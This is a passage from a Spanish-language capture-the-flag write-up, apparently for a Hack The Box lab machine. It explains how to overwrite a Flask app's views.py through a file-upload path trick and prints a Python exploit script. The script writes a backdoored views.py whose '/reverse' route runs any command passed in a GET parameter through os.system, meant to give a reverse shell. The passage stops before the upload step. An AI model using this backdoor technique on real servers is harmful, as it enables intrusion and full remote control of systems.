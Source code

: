 Lo que observamos son las diferentes rutas del servicio web y sus respectivas funciones que se ejecutarán al acceder a estas. Además, anteriormente en el mensaje de error logramos ver que se trabaja con el archivo en la ruta `/app/app/views.py` el cuál es este mismo. Entonces.... que pasa si subimos el archivo modificandolo y logramos reemplazarlo con el original?

## Foothold

* * *

Lo que haremos será agregar una nueva ruta al archivo `views.py` y con ello la funcionalidad, insertando un parametro por get, para realizar ejecución remota de comandos **RCE (Remote command execution)**, luego la subiremos por la aplicación `Upcloud`, pero antes de eso (g.e interceptando por __Burpsuite__), ya que sabemos su ruta exacta, cambiamos su nombre por aquella ruta y así reemplazará al archivo original pero con nuestra funcionalidad agregada. Para ello hice un script en `Python` para automatizar todo el proceso:

```python
import requests, signal, sys, subprocess, shlex, argparse, time
from pwn import *

# testing
import pdb

# ctrl + c (function)
def signal_handler(signum, frame):
    log.failure("Interruption"); sys.exit()

# ctrl + c (event)
signal.signal(signal.SIGINT, signal_handler)

# global variables
target_url = "http://10.10.11.164:80/upcloud"
file_path_name = "/app/app/views.py" # important!

# arguments
parser = argparse.ArgumentParser(description='Reverse shell to container')
parser.add_argument('-ip', type=str, required=True, help='ip address to receive shell')
parser.add_argument('-port', type=int, required=True, help='port to receive shell' )

args = parser.parse_args()

# malicious function
# - - - - - - - - - - 
#   revshell_function = """
#                app.route('/reverse')
#                def shell():
#                    return os.system(request.args.get['cmd'])
#           """

# create malicious file
def create_file():
    try:
        open('views.py')
    except FileNotFoundError:
        with open('views.py', 'w') as file:
            file.write("""import os\nfrom app.utils import get_file_name\nfrom flask import render_template, request, send_file\nfrom app import app\n\n@app.route('/', methods=['GET', 'POST'
])\ndef upload_file(): #hacked\n\tif request.method == 'POST':\n\t\tf = request.files['file']\n\t\tfile_name = get_file_name(f.filename)\n\t\tfile_path = os.path.join(os.getcwd(), "public", 
"uploads", file_name)\n\t\tf.save(file_path)\n\t\treturn render_template('success.html', file_url=request.host_url + "uploads/" + file_name)\n\treturn render_template('upload.html')\n\n@app.
route('/uploads/<path:path>')\ndef send_report(path):\n\tpath = get_file_name(path)\n\treturn send_file(os.path.join(os.getcwd(), "public", "uploads", path))\n\n@app.route('/reverse')\ndef s
hell():\n\treturn os.system(request.args.get('cmd'))""")
```